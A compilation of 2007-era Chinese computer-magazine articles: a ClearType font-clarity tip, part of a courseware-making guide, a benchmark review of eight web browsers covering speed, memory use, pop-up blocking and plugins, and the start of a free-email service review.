#### 字体革命之——清晰显示

安装了微软雅黑字体，并将其设定为系统默认字体以后，细心的你可能就会发现，其实现在的效果并不是最理想的，还有一种模模糊糊的感觉，甚至还不如原来的宋体字更清晰呢。不用着急，其实这是由于微软雅黑字体没有经过ClearType设置的缘故。这种模糊的现象在液晶显示屏上表现得更加突出，因此我们首先要做的就是在网上下载一个ClearType，如：http://www.onlinedown.net/soft/43911.htm。下载完成后，我们首先要将“cttune.cpl”复制到系统盘的WINDOWS目录下的system32文件夹中；

然后，通过双击来运行程序，你在“控制面板”中找到“ClearType Tuning”选项。双击“ClearType Tuning”；

我们在弹出的“ClearType 设置”窗口中选中“启用ClearType”选项，单击“设置向导”按钮选择自己想要的内容；

最后，通过点击“下一步”选择喜欢的显示效果，再点击“完成”就OK了。现在的字体显示就变得非常清晰锐利了。

其实，这种通过设置ClearType使显示字体变清晰的方式并不适用于刚刚我们提到的默认字体替换法，所以大家使用时候，为了避免不必要的麻烦和辛劳，一定要认真的检查检查啊。

设计脚本是制作课件的指导性原则和依据。脚本编写包括课件内容的逻辑顺序、知识单元的分析、链接关系的描述、音视频动画等素材如何安排、课件与学生之间的交互方式等方面。脚本的质量直接关系到课件的制作水平，因此脚本应尽量详细，为课件制作提供尽可能多的参考。

比如，在设计电子杂志课件的过程中，通过电子杂志可以做出功能强大的互动内容，了解用户的个性需求。电子杂志的用户管理后台可以针对用户做目标分析和阅读分析，并得到实时更新的信息反馈。而这一切也需要通过功能强大的相关课件的脚本来实现。

##### 小技巧

制作素材时要注意以下几个问题：

- 首先，文本要使用规范文字，通盘考虑文字的排版、各种属性以及通用性，提高文字的总体表达效果。
- 其次，图片的选择要符合网页特性。通常我们使用的图片素材来自于插图及照片等的扫描、数码相机的拍摄、从光盘素材库和Internet中搜索、截取显示器上的静止图像等，这些素材要经过图像处理工具如Photoshop等进行再加工才能满足课件制作的需要。一般网页中的图像为GIF和JPG两种格式，它们具有压缩比高、跨越平台限制的优点，在任何一个网络课件创作工具中都可调用。创建Web图片的要求是“小、快、好”，图片的大小一般不超过400×400像素；扫描的图片分辨率一般设为300dpi，色深设为24bit左右；数码相机的分辨率设为800×600像素即可。
- 再次，采用流媒体技术压缩音视频素材。精彩的视频、新颖的动画、和谐的声音是网络课件中不可缺少的元素，它们可以增强信息的传播量，吸引学生的注意力。但是一般的音视频文件都很大，受网络传播速度的限制，必须采用现今流行的流媒体技术对它们进行压缩。例如用RealProducer软件将普通的音视频文件转换为RM格式，连接上网页后，再通过流媒体播放器RealPlayer播放，这样会使文件几十倍地缩小，大大提高网络的浏览速度。

##### 4. 素材选择与收集加工

素材的选择与加工制作是网络课件中工作量最大、最烦琐，也是最重要的环节，要针对教学内容的不同选择恰当的素材形式，如对于概括性强的内容，利用文字表现较恰当；对于具有静态特征的内容，可用图片、图像来表现；而抽象和动态的内容则需用动画和视频体现了。由于网络课件是运行于网络环境，所以素材的制作要在满足教学需求的前提下，尽量减小各种素材的数据量，以保证网络课件具有较快的传输和运行速度。

##### 5. 使用课件制作工具集成

素材准备妥当后，就要根据脚本的设计，使用课件开发工具进行制作了。如Dreamweaver CS3、Flash CS3等。实际设计中，除了采用静态网页、PPT、EXE杂志格式，还可以采用ASP技术进行动态网页的设计，对网络数据库进行管理。在这一部分，可以重点参考上述技术组合方案。

##### 6. 对课件进行修改和评价

课件投入使用后并不是万事大吉了，要经常地进行评价和修改。“经常性地进行评价和修改”是多媒体网络课件的精品策略之一。首先，评价可以从以下两方面进行：形成性评价和总结性评价。形成性评价是在课件开发的过程中实施的评价，它为提高课件质量提供依据，它的目的在于改进课件的设计，使之更加符合教学或学习的需要，便于提高质量和性能。形成性评价的参与者有课件开发人员和开发人员以外的学科教师、教育技术专家、技术支持人员、有代表性的学生等。总结性评价是在课件开发结束以后进行的评价，其目的是对课件的性能、效果等，做出定性、定量的描述，确认课件的有效性和价值，为课件更新提供改进意见，并总结课件制作经验。其次是修改。课件开发人员经常阅读定性评价栏目中的评价内容，特别要注意大家对自己所开发的那部分课件内容的评价建议，总结大家的评价意见，结合定量评价结果，进行分析论证，然后对课件进行合理修改，以进一步提高课件质量。总之，除了灵活运用上述组合方法，我们应该看到当前课件的制作趋势是每个用户都能参与的网络多媒体课件。除了一般多媒体课件制作技术，还要运用动态网页制作技术，如ASP、ASP.net、PHP、JSP等，这也体现了课件智能化方向发展的趋势。在今后的课件制作中，课件制作者应该遵循这样的发展规律，按照多媒体课件的制作原则与要求，发挥制作者个人的主观能动性，将多年积累的教学经验与现代化的科技手段结合起来，从而达到“传道、授业、解惑”的目的。可以想象，随着各种技术和策划手段的提高，在不久的将来，多媒体技术、网络技术、仿真技术、虚拟现实也将逐步普及到教学的各个领域，各种新型课件也将逐步涌现出来。

### 冲浪新感觉：2007浏览器完全点评



◆文/彭文波

2007年以来，浏览器市场上可谓是“烽烟四起”。随着微软公司推出IE7.0正式版后，其余浏览器厂商也纷纷加入升级的队伍。一时间，各种新版浏览器软件接踵而来。由于用户的使用习惯和观点各不相同，而且每款产品都有自己独特的功能和特性，因此，网络上关于浏览器的争论也一直没有停止过。一般来说，运行在Windows上的浏览器都基于两个基础解析页面（page-rendering）引擎：IE核心、非IE核心。从目前市场情况来看，基于IE核心的网页浏览器包括：Internet Explorer、傲游（Maxthon）、GreenBrowser、腾讯TT浏览器、世界之窗（TheWorld）、Avant Browser、GoSURF、TouchNet Browser等；基于非IE核心的网页浏览器包括：Firefox、Opera、Netscape、Sleipnir、K-Meleon、Flock等。以这两大阵营为基础，结合各大站点的下载情况和相关网络调查报告，本次测试精心挑选了2007年最流行的八款浏览器软件进行综合测试。测试过程中，本专题以统一的标准测试方法为基础，从浏览器界面和操作易用性、页面加载速度、浏览器安全、内存资源占用、插件与扩展功能等方面进行评价，以翔实的第一手数据帮助用户了解目前浏览器的发展状况。

#### 一、浏览器测试的基本参数

测试浏览器软件之前，需要了解用户使用软件时所关心的基本参数指标。在对象的选择上，我们以2007年流行的最新浏览器版本为基础。

##### 1. 评测浏览器的基本参数

通过综合比较，本次测试选择以下基本参数：

###### （1）浏览器界面和操作易用性

一款软件是否好用，与其界面设计有着非常紧密的关系。因此，首先需要对各个浏览器的界面布局和操作习惯进行比较。下面选取了三项常用功能，即界面美观性、标签管理、其他个性化操作功能。其中，标签管理功能是多页面浏览器的一个重要指标。多页面浏览器的最大优势就是能够同时打开多个页面，这样会极大地方便用户浏览网页。此外，是否能够提供完善的浏览器界面和操作功能也将成为一个重要的衡量指标。

###### （2）浏览器页面加载速度

对于用户来说，一款优秀的网页浏览器不仅要具备美观大方的外表，还要拥有较快的页面打开速度。为了测试页面加载速度，本文选择了一个专业的页面加载测试网站，地址为http://www.octagate.com/service/SiteTimer/?Target=AJAX。测试方法为，在该页面的文本框输入多个URL地址，然后点击“Start”（开始）按钮进行测试，点击之后，某个需要监视页面的文件加载时间就会以柱状图形式列出。在这个柱状图中，Connect是发出连接，First Byte是第一个字节返回的时间，Last byte是这个文件加载完成返回的时间。在表格的数据统计中，通过记录最快响应时间和最慢响应时间，取其平均值以测试浏览器加载速度。由于标准统一，并选择国内外不同站点进行抽样测试，因此其结果具有可比较性。如图1所示。

###### （3）浏览器内存资源占用

合理有效地利用内存资源，才能真正发挥出机器的真实性能。因此，浏览器内存资源占用也是当前需要重点考虑的指标之一。在测试方法上，选择“360安全卫士”进行配合，通过软件所显示的相关数据来反映内存资源的占用情况。

###### （4）浏览器安全

网络冲浪过程中，对用户最大的干扰莫过于网络安全问题了。因此，在浏览器安全测试方面，着重测试了反钓鱼功能和拦截弹出窗口的能力。由于考虑到网站上的广告形式并不全面，所以我们就选择了一个专门的弹出广告测试网站进行评测，网址:http://www.cnproxy.com/popkillertest/index.html，该网站能够模拟出目前网络上最常见的27种拦截广告形式。考虑到测试标准的统一性，在浏览器的设置上，所有浏览器均选择默认的拦截设置，并对最终拦截成功或拦截不成功的数量进行统计。

###### （5）插件与扩展功能

通过浏览器插件程序，能够帮助用户更方便地浏览因特网，或调用上网辅助功能。许多浏览器提供了丰富的插件管理功能，对浏览器的功能扩展起到了很大的作用。其好处有以下几点：首先，系统的扩展性大大加强。如果在系统发布后需要对系统进行扩充，就不必...



小知识：插件的相关知识。以往的系统，开发人员编译发布之后，系统就不允许进行更改和扩充了，如果要进行某个功能的扩充，则必须要修改代码重新编译发布。使用插件可以很好地解决这个问题。在Photoshop、Winamp等软件中，广泛应用了插件的概念（在Photoshop中称为滤镜），这些插件都是其他开发人员根据系统预定的接口编写的扩展功能。所以插件实际上就是系统的扩展功能模块，这些模块是以一个独立文件的形式出现的，是与系统相对独立的。在系统设计期间，并不知道插件的具体功能，仅仅是在系统中为插件留下预定的接口，系统启动的时候根据插件的配置寻找插件，根据预定的接口把插件挂接到系统中。重新编译，只需要增加或修改插件就可以了。其次，有利于系统的稳定，各个功能模块由于是以插件的形式表现在系统中的，某个模块的错误不会导致整个系统的失败，失败的仅仅是一个插件而已。再次，通过开发强大而灵活的插件管理系统，不修改基本系统就能构造出各种各样不同的系统。因此，评价一款软件的插件功能，也反映了用户对该软件的接受程度。

##### 2. 参与测试的浏览器

近几年来，微软公司在浏览器软件升级方面的动作并不大，加上浏览器技术门槛并不高，这在客观上给了其他浏览器发展的空间。2007年以来，尽管推出了强大的新版IE7.0，但这主要针对正版用户，而且其繁琐的安装过程可能会使一部分用户望而却步。而其他浏览器软件更具有“平民化”色彩，几乎能够随时参与互动反馈，很多用户所反映的问题都能够马上在新版本浏览器中得到解决。因此，近年来浏览器市场始终处于摇摆不定的局面。

综合各大下载站点及网络报告、网络调查评选等资料，本专题选择以下浏览器作为测试对象。

| 名称 | 版本 | 网站 |
|---|---|---|
| IE | IE 7.0 | http://www.microsoft.com/ |
| 傲游 | Maxthon V2.0.3.4643 | http://www.maxthon.cn |
| 腾讯 | Tencent Traveler V3.8 | http://www.qq.com |
| Avant | Avant V11.5 Build 20 | http://www.avantbrowser.com/ |
| 世界之窗 | TheWorld V2.0.6.1 | http://www.ioage.com/ |
| 火狐 | Firefox V2.0 | http://www.mozilla.org.cn/ |
| Netscape | Netscape V9.0 Beta 3 | http://home.netscape.com/ |
| Opera | Opera V9.23 | http://www.opera.com/ |

在本次测试中，为了公平起见，所有参评的浏览器基本保持了默认设置，尽量使用当前的最新版本，未安装任何第三方插件。软件测试环境和硬件相关配置为：

| 名称 | 配置参数 |
|---|---|
| 处理器 | AM2 速龙64 3200+ |
| 主板 | 技嘉 GA-M55S-S3 |
| 内存 | KINGSTON 1G DDR400 |
| 硬盘 | 西部数据160G/7200/8M/SATA150 |
| 显示器 | L1550S (LG) |
| 显卡 | UNIKA 火旋风PCX15518 TURBO V |
| 操作系统 | Windows XP Professional 中文版 |

#### 二、浏览器综合性能与测试分析

在上述标准配置环境的基础上，首先，按照自动提示安装上述八款软件，

##### 1. 浏览器界面和操作易用性

###### (1) IE 7.0

本次测试版本为IE7.0.5730.11正式版，该版本必须经过正版验证。初次使用时，除了感觉图标有了小小的变化外，整体界面也有很大变化，并提供了一些个性化服务。

首先，整体界面采用了更加简洁的工具栏，通过合并菜单项、采用小图标、工具栏高度整体降低等设计，进一步优化了屏幕的空间，便于用户向收藏夹添加网站、搜索Web、清除历史记录以及访问更多的网站。

其次，IE7.0在标签浏览功能上让人耳目一新，并提供了方便的RSS订阅服务。通过选项卡式浏览，只需单击工具栏上的新选项卡按钮，用户就可以同时查看多个不同的网站，并能够同时停留在一个窗口中。

再次，IE7.0采用了快速、全面的自定义Web搜索。通过右上方的内置搜索框，用户可以随时搜索Web页面。当然，用户可以自己设置默认搜索提供程序，并能够对搜索结果进行比较。



###### (2) 傲游（Maxthon）V2.0

这是一款基于IE内核的多页面浏览器，除了方便的浏览功能，傲游浏览器还提供了大量的实用功能。在傲游的官方网站提供了丰富的皮肤素材，用户甚至还可以自己设计心仪的风格，个性化十足。傲游在操作方面也十分顺手。

首先，通过在线收藏功能，注册用户只需要登录账号，就可以在不用的电脑上使用同一份收藏夹；通过收集面板，可以收集论文资料、获取程序代码、查看最新的新闻、收集游戏技巧等，而且基本不占用资源。其次，软件提供了即指即现的浮动按钮工具、屏幕截图、网页嗅探器、在状态栏中自定义参数、CPU节能、多线程浏览模式等。这些功能极大地简化了往常繁琐的操作过程，取而代之的是傲游提供的一键式操作。无论保存图片，截取网页中的视频或是音乐等等，都比较简单快捷。不过，由于各种按钮和功能均被齐刷刷地放置在了主界面上，Maxthon的界面设计略显杂乱。如图3所示。



###### (3) Tencent Traveler V3.8

“腾讯TT”最新版本采用了大图标界面，整体感觉更加亲切、友好。“腾讯TT”不仅提供了完善的多页面浏览功能，还更是新增了多项人性化的特色功能，如自带的“旋风下载”工具、广告过滤、汇集众多搜索引擎的强大搜索功能、快捷体贴的鼠标手势、最近浏览列表、自动填表功能、完全隐私保护和便捷拖放功能等。如图4所示。



###### (4) Avant V11.5 Build 20

Avant Browser是一款Internet Explorer 内核的多窗口浏览器。Avant的界面非常简洁，菜单栏、工具栏、地址栏和标签栏，全都被整齐有序地排列在了淡灰色质感界面上，而且丝毫没有给人以零乱的感觉。在操作功能上，Avant使用起来很顺手。首先，Avant提供了方便的鼠标操作功能和浮动菜单功能。通过鼠标拖拽的方式，用户可以直接更改布局；在网页中用鼠标中键点击一个链接，该链接将直接在新窗口中打开；通过浮动菜单，用户可以快速完成“保存”、“复制链接到剪贴板”、 “打开新窗口”等操作，相当便捷。

###### (5) TheWorld (世界之窗) V2.0.6.1

软件界面十分漂亮，银色的界面上顺序布置着菜单栏、工具栏、地址栏和标签栏，整体设计十分简洁而且很容易上手。世界之窗具备基本的换肤功能，用户可以给浏览器更换不同的按钮图标、背景图片。在操作习惯上，世界之窗支持鼠标手势，按住鼠标右键的时候，根据鼠标滑过的轨迹，每个鼠标手势可以对应一个浏览动作，如关闭当前的浏览窗口，鼠标手势易于掌握，熟练的时候鼠标手势可以给网页浏览操作提供很大的便利和乐趣。此外，世界之窗还支持网页自动填表、网页无级缩放、自动编辑网页等功能，但不支持RSS服务。如图6所示。



###### (6) Firefox V2.0

Firefox是Mozilla开发组推出的一款浏览器，采用了非IE核心的内核，适用于Windows/Linux等多种平台。初次安装后，软件会提示其他浏览器中的选项、书签、历史、密码以及其他数据。Firefox界面十分清爽干净，Firefox 2.0还内置了RSS与XML浏览订阅功能，用户可以很方便地把网络上的RSS源加为书签。收藏以后，每次启动Firefox时都会自动载入RSS源的最近更新，把鼠标放上去就可以显示最近文章的标题，自己可以先选择文章标题查看。此外，用户还可以选择新的主题界面，安装新的功能扩展等。如图7所示。



###### (7) Netscape V9.0 Beta 3

Netscape浏览器极具魅力的方面是它能转换解析引擎（在Internet Explorer的Trident和Firefox的Gecko之间），从而有着最大的兼容性。除了带给用户每一个浏览器所必要的元素外，还提供了许多额外的设置选项。软件界面采用了墨绿色风格，具有浓浓的书香气息。在操作功能上，除了包含浏览器Navigator，软件还包含了E-mail客户程序Messenger Mailbox、新闻组程序Collabra Discussion Groups、网页编辑器Page Composer、“推”客户程序Netcaster，以及Conference、Calendar、IBM Host On-Demand等。如图8所示。



###### (8) Opera V9.23

Opera是来自挪威的一款优秀浏览器，整体界面风格和其他浏览器略有不同。软件提供了快速查看网页缩略图的功能，当我们打开多个页面时，只要把鼠标移动到相关的标签上，停留一会后就可以看到该标签对应页面的缩略图了。通过集成的BT下载功能，用户无需再安装其他的BT下载客户端，就可以轻松下载大容量文件，如视频、游戏。此外，软件还提供了以下特色功能：方便的缩放功能、整合搜索引擎、键盘快捷键与鼠标浏览功能、当机时下次可以从上次浏览进度开始、支持全屏模式、整合电子邮件与新闻群组以及让使用者自定义按钮等。如图9所示。



##### 2. 浏览器页面加载速度

上网冲浪过程中，用户都很在意页面的浏览速度，因此这也可能会成为用户选择浏览器软件的重要参考指标。登录http://www.octagate.com/service/SiteTimer/?Target=AJAX后，分别使用上述八款浏览器软件，测试站点包括：Baidu.com（国内）、Yahoo.com（国外）、Google.cn（国外公司在本地的站点）。在测试过程中，分别取其最快响应值和最慢响应值。测试时间为下午15：00左右。首先，测试baidu.com时，网站界面如图10所示。在Firefox中测试Yahoo.com时，界面如图11所示。





##### 3. 浏览器内存资源占用

在内存资源占用测试方面，分别在开启单页面、五页面和八页面的情况下进行取样统计。所有软件全部打开单页面时，各软件占用资源如图12所示。

表1 浏览器页面加载速度测试
| 名称 | Baidu.com最快 | Baidu.com最慢 | Yahoo.com最快 | Yahoo.com最慢 | Google.cn最快 | Google.cn最慢 | 合计 |
|---|---|---|---|---|---|---|---|
| IE | 1.36 | 5.85 | 0.7 | 3.1 | 0.53 | 2.17 | 13.71 |
| 傲游 | 1.35 | 6.0 | 0.39 | 3.0 | 0.47 | 2.13 | 13.34 |
| 火狐 | 1.31 | 11.48 | 0.6 | 3.05 | 0.52 | 2.24 | 19.2 |
| Netscape | 1.25 | 4.5 | 0.63 | 4.25 | 0.53 | 2.02 | 13.18 |
| 腾讯 | 1.5 | 3.18 | 0.61 | 5.72 | 0.57 | 2.25 | 12.33 |
| Opera | 1.36 | 5.62 | 0.62 | 3.1 | 0.60 | 2.39 | 13.69 |
| 世界之窗 | 1.35 | 3.0 | 0.61 | 3.58 | 0.60 | 2.40 | 11.54 |
| Avant | 1.45 | 3.12 | 0.65 | 3.1 | 0.53 | 2.03 | 10.88 |

尽管网络速度和测试时间对上述软件参数会有一定影响，但基于同样的标准，也具有很大的可比性。在上述测试中，Avant独占鳌头，在页面加载速度上遥遥领先；界面简洁的世界之窗紧随其后，上述两款软件加载速度均在12秒以内，速度表现优秀。此外，腾讯TT也有不错的表现，但IE7.0则明显低于上述几款基于IE内核的软件。可见，即使同为IE内核的浏览器，但是功能选型的不同和处理不当，也会造成页面加载速度方面的差别。相比之下，非IE内核的几款软件整体表现欠佳，Netscape、Opera等软件速度中等，而火狐Firefox则达到了惊人的19.2秒，与其他几款软件差距太大。

测试五页面参数时，开启页面分别为以下站点的首页：百度，Google中国，搜狐，中国雅虎，新浪。其中，新浪首页占用资源比较大，与其他页面的对比，能够比较直观的反映资源占用的变化情况。八页面时，直接添加三个新页面。

测试后，汇总数据如表2所示。

通过上述测试，可以看到，腾讯在资源占用方面表现优异，尤其是多窗口的情况下，所用资源仅为其他软件的一半；Opera、Netscape紧随其后，也有不错的表现。相比之下，IE、傲游、Avant等则表现中等。而在多页面浏览情况下，世界之窗、火狐浏览器所占用资源比较多，如果电脑内存不够多的话，开几个窗口就没有内存了。因此，用户在选择浏览器时，需要根据机器配置的实际情况，选择最适合自己的浏览器，以免在浏览过程中出现死机的情况。

##### 4. 浏览器安全性能

下面，针对最新的浏览器版本，进行安全性能方面的测试。

- （1）IE7.0
安全功能进一步增强，尤其是针对比较热门的钓鱼式攻击提供了防范措施。开启反钓鱼功能后，在IE状态栏上将会出现一个蓝色的小盾牌图标。此外，IE7.0还提供了仿冒网站筛选功能和加载项管理。仿冒网站筛选实际上就是我们所说的钓鱼式攻击，它可以进行合法站点的站点列表比较，也可以帮助分析访问的站点。在浏览过程中，如果正在访问的站点位于已报告仿冒网站列表中，Internet Explorer 将显示警告网页并且在地址栏上显示通知。实际应用中，需要关闭或打开仿冒网站筛选时，可以在Internet Explorer中打开“工具”按钮，单击“仿冒网站筛选”，然后单击“仿冒网站筛选设置”。然后在选项列表中“安全”下方的“仿冒网站筛选”部分进行相关设置。例如，如果需要禁用筛选功能，单击“禁用仿冒网站筛选”，然后单击“确定”。

利用IE7.0浏览SSL加密页面时，会在地址栏的明显部位显示出一个“小锁”标识，用户需要了解这个网站的加密信息时，用鼠标点击一下“小锁”即可了解网站的相关信息。需要了解网站认证信息或数字证书信息时，可以单击“工具”菜单下的“Internet选项”，点击“内容”选项卡。需要设置Internet网站、本地Intranet、可信站点、受限站点等参数时，切换到“安全”选项卡即可。

- （2）傲游
傲游提供了丰富的安全管理功能。在“选项”菜单下的“广告猎手”选项中，可以设置启用弹出窗口过滤、网页内容过滤、网页对话框过滤、浮动广告过滤等，还可以直接编辑过滤列表。

- （3）腾讯
单击“工具”菜单下的“管理屏幕专家”，可以进行多项安全方面的设置。包括可以设置过滤自动弹出式窗口、监视Active插件下载、禁止下载和播放Flash、视频、声音，禁止运行网页脚本、Java小程序等。

- （4）Avant
Avant也提供了弹出窗口过滤和广告过滤功能。在“选项”设置窗口中，通过设置黑名单和赦免名单。启用弹出式窗口过滤器后，符合规则的弹出式窗口都将被过滤。

- （5）世界之窗
世界之窗提供了广告过滤、安全浏览等功能。单击“工具”菜单下的“广告过滤”选项，可以设置弹出窗口广告过滤、浮动元素广告过滤、页面黑名单过滤等，还可以针对这些选项直接进行广告过滤设置。

- （6）火狐
在安全方面，Firefox提供了两种打开模式，其中一种就是安全模式。软件支持对插件进行数字签名；具有阻挡弹出式窗口的特点，在阻止一个弹出式窗口后，它会在小型状态条中提供反馈信息，同时它能迅速解除对一个弹出式窗口的阻挡。

- （7）Netscape
Netscape用来保护网络安全的秘密武器就是不断更新网站黑名单。在用户访问黑名单上的网站时，浏览器将向用户发送警告信息。如果用户继续坚持访问该网站，浏览器就会关闭可能带来安全问题的各种功能，包括ActiveX、cookie、相关脚本等。通过安全“选项”界面，可以对非法软件或网站进行



表2 浏览器内存资源占用情况测试表
| 名称 | 单页面 | 五页面 | 八页面 | 合计 | 平均 (MB) |
|---|---|---|---|---|---|
| IE | 5.44 | 46.09 | 50.28 | 101.81 | 33.94 |
| 傲游 | 5.36 | 56.37 | 57.61 | 119.34 | 39.78 |
| Avant | 6.2 | 54.91 | 58.88 | 119.99 | 40.00 |
| 世界之窗 | 6.54 | 61.77 | 63.14 | 131.45 | 43.82 |
| 火狐 | 8.72 | 73.71 | 75.08 | 157.51 | 52.50 |
| Netscape | 21.15 | 32.08 | 50.42 | 103.65 | 34.55 |
| 腾讯 | 4.52 | 27.24 | 27.38 | 59.14 | 19.71 |
| Opera | 7.25 | 37.82 | 41.95 | 87.02 | 29.01 |

###### （8）Opera

面对激烈的浏览器软件竞争，Opera将其产品重心放在了安全性方面。Opera的安全功能改进后，可以有效地防止钓鱼式攻击。当有些欺骗网站引用用户透露银行个人账号等有用的信息时，Opera就会提示“账号需要升级”。Opera可以显示每个网站的安全性能，对信赖的网站它会提示黄色的标语，同时，当出现弹出式广告时它也会进行提示。

通过上述功能的描述，可以看到，当前浏览器安全功能集中于对广告、恶意程序等方面的防范。能否有效地防范这些恶意程序，就成为评价其安全性能的重要指标。

下面，登录专门的弹出广告网站，进行拦截测试，界面如图13所示。



弹窗拦截测试程序总共有27个，数据统计结果如表3所示。上述设置均按照默认的安全设置进行。

表3 浏览器拦截广告测试
| 名称 | 测试数目 | 通过数 | 未通过数 |
|---|---|---|---|
| IE | 27 | 24 | 3 |
| 傲游 | 27 | 23 | 4 |
| 火狐 | 27 | 25 | 2 |
| Netscape | 27 | 25 | 2 |
| 腾讯 | 27 | 12 | 15 |
| Opera | 27 | 23 | 4 |
| 世界之窗 | 27 | 23 | 4 |
| Avant | 27 | 21 | 6 |

通过上表测试可以看出，火狐、Netscape、IE7.0等软件在拦截测试方面表现优秀，未通过的程序仅为2～3个；其他程序如傲游、Opera、世界之窗、Avant为4～6个；腾讯则为15个，这与该程序未打开广告拦截功能有关。总体而言，可以看出各大浏览器软件已经开始重视针对弹出窗口、钓鱼式攻击等的防范，这对用户浏览网页提供了良好的安全保障。

##### 5. 插件与扩展功能

软件功能强大才会有许多忠实的“粉丝”，因此，从某种意义而言，浏览器的插件与扩展功能也反映了软件能够被用户接受的程度。下面，我们对几款优秀的软件在插件方面的表现进行分析。

###### （1）IE7.0插件

在插件与扩展功能方面，IE7.0提供了更贴心的加载项管理。使用IE浏览一些网站时，可能会安装一些插件，比如Shockwave player和QuickTime，新增的插件管理器就是专门针对这些插件而设计的。通过“加载项管理器”，用户可以查看Internet Explorer的所有加载项列表。使用该功能时，打开Internet Explorer，在“工具”菜单上，单击“管理加载项”，在弹出的“显示”框中，即可查看当前的加载项组。

> 《小技巧》IE 7.0的插件功能十分强大，微软在很早以前就开放了一个专门的IE 7.0插件网站，用户可以轻松找到自己喜欢的插件，任意扩展浏览器功能。该网站地址为http://www.ieaddons.com。这些插件的安装非常简单，用户根据自己的喜好点击不同的链接就能看到该子项下的所有插件。安装完毕，插件就可以与IE7.0协同工作了。这些插件有收费的，也有免费的。如果感觉满意，点击相关按钮即可下载。

###### （2）傲游插件

首先来看看傲游插件的分类。一般来说，按照浏览器种类可划分为傲游插件和IE插件；按照代码的性质可分为Script插件（插件模块为脚本）、COM插件（插件模块为DLL的COM组件）和EXE插件（插件模块为EXE程序）；按照功能和位置分为扩展按钮、侧边栏、工具栏、浏览器辅助对象和协议句柄。傲游的插件需要安装在傲游安装目录的Plugin目录的子目录下，子目录名可以自定义，插件的主要文件plugin.ini以及COM组件或脚本文件都要保存在这一目录下。用户从网上下载的傲游插件一般都是一个压缩文件或自解压文件，保持相对路径解压这些文件到傲游安装目录的Plugin目录，然后重启傲游浏览器，

> 《小技巧》傲游的插件可以集中管理。在菜单栏选择“工具”→“管理插件”，打开“插件管理器”对话框，在左窗格选择“插件”，在右窗格就可以看到已经安装的插件了。在插件管理器中，包括插件的名称、作者、版本、类型以及说明。选择一个插件后，如果下面的“配置”按钮能够使用，用户还可以对其进行详细设置。

###### （3）FireFox（火狐）插件

由于该软件开放性很强，因此其扩展插件种类繁多，下载安装后FireFox的浏览功能将更加强大。用户可以到http://www.firefoxcn.com/extensions/或http://www.firefoxfans.com/等站点进行下载。其插件涵盖的范围包括：标签页管理、网页链接管理、文件下载管理、浏览网页管理、隐私与安全管理、网页搜索管理、音乐、与视频管理、书签管理、电子邮件管理、其他流行服务管理等。一般来说，大多数扩展插件可以在FireFox 2.0上使用。无法使用时，可以使用Nightly Tester Tools工具，软件下载地址为：http://users.blueprintit.co.uk/~dave/web/firefox/nightly。

###### （4）世界之窗浏览器插件

用户可以到官方网站进行下载，地址为http://www.ioage.com/cnnew/plugins.htm。

通过上面的测试，相信不少用户对本年度浏览器的发展趋势和应用情况已经了然于胸。如果用户对浏览器界面和操作易用性比较看重，IE7.0、世界之窗、傲游等软件都是不错的选择；如果用户对浏览器页面加载速度比较看重，可以选择Avant、世界之窗等软件；在浏览器内存资源占用方面，腾讯、Opera、Netscape等软件表现优异，可供用户参考；在浏览器安全性能方面，火狐、Netscape、IE7.0等软件表现比较突出，用户可以根据自己的喜好进行选择。此外，如果用户比较喜欢使用各种实用小巧的插件功能，IE7.0、傲游、FireFox（火狐）以及世界之窗等软件都能满足用户的需求。

从整体性能上看，IE7.0与Windows多个版本结合紧密，具有得天独厚的优势，因此在整体功能测试上占有绝对的优势；在人气和个性化功能方面，傲游在软件皮肤、插件等个性化定制方面的功能十分强大，因此很适合有个性化需求的用户；对于QQ用户或配置略低的用户而言，腾讯TT也具有很大的优势。此外，Opera、Netscape等非IE内核浏览器软件表现也可圈可点，在浏览速度、资源占用、安全保护等方面整体表现让人为之侧目，软件的发展后劲十足。



### 2007年免费邮箱功能与新技术完全接触

◆文/彭文波

毫无疑问，电子邮箱是目前最普及的网络应用之一，如今，邮箱地址和手机号码一样成为了个人身份信息的一部分，因此，用户对邮箱的稳定性、可靠性和安全性要求也日益提高。回顾2004年电子邮箱从M时代跨入G时代，网易、雅虎、新浪三家邮箱一直稳居中文邮箱市场的第一阵营，而后起的Gmail、QQ Mail与Hotmail、Tom、搜狐、21CN等构成了第二阵营。2007年，在雅虎率先将邮箱扩容后，各家免费邮箱服务商也都迅速跟进，高举高性能大容量免费邮箱的旗帜，掀起一轮又一轮的扩容和服务提升竞赛。“无限容量”、“终生邮箱”等概念的横空出世，也终结了过去十余年间邮箱围绕容量的升级换代之争。

不过，在容量竞争不再成为焦点的时代，作为用户，我们更看重的是服务商的服务持久度、技术能力和服务能力，更在意的是邮箱功能和服务的稳定性。在这种趋势下，围绕邮箱性能和服务提升的新技术竞争也更加激烈，如特色更明显的个人空间、智能化的邮件地址簿、超强的病毒防范、效率手册、记事本、朋友圈子等。那么，面对种类繁多、热火朝天的大容量电子邮箱，我们该如何选择呢？本专题通过典型的邮箱指标，结合最新的Web2.0技术和用户喜好，为广大用户寻找功能最卓越的免费邮箱。

#### 一、免费邮箱的性能评价指标

免费邮箱让互联网企业承担了大量的服务器和带宽成本，表面看好像是赔钱买吆喝，实际上大有商机。免费邮箱吸引大量用户后，无论对于网站品牌拉动，还是对于其他业务的拓展，都能起到非常明显的作用。当然，免费邮箱服务自身也蕴含商机，比如发邮件广告，播放页面广告等。因此，分析邮箱所应用的新技术，首先需要建立一个比较客观的性能评价指标，才能对邮箱产品进行更加标准化和客观的分析。

基于上述考虑，可以将免费邮箱的基本属性概括为以下几点，即基本邮箱功能、技术性能和服务体验。下面，参考中国互联网实验室提出的邮箱评价体系，针对这三大部分进行重点说明。

### 第一，基本邮箱功能方面。

一般来说，邮箱的重点产品功能主要包括：空间容量、附件大小和导入导出地址栏、邮箱界面的美观度等。这是邮箱提供的基本服务，在细分的基础上，可以从实用度和集成度两方面来分析。在实用度方面，还应包括新建文件夹、地址簿、检查邮件、邮件协议、界面美观等。在集成度方面，还包括传真、群发、导入导出地址等。

### 第二，邮箱技术性能方面。

一般来说，邮箱的重要技术性能指标包括：稳定性、速度和安全等。邮箱技术性能的好坏，反映在用户收发邮件的过程中，这方面可以从表现度和安全度方面进行更加详细的分析。在表现度方面，稳定性和速度应该是用户最看重的；在安全度方面，用户关心的指标就很广泛了，常见的指标包括：邮件过滤器、防垃圾邮件、密码保护、登录限制、注册方法、网络存储等。

### 第三，邮箱服务体验方面。

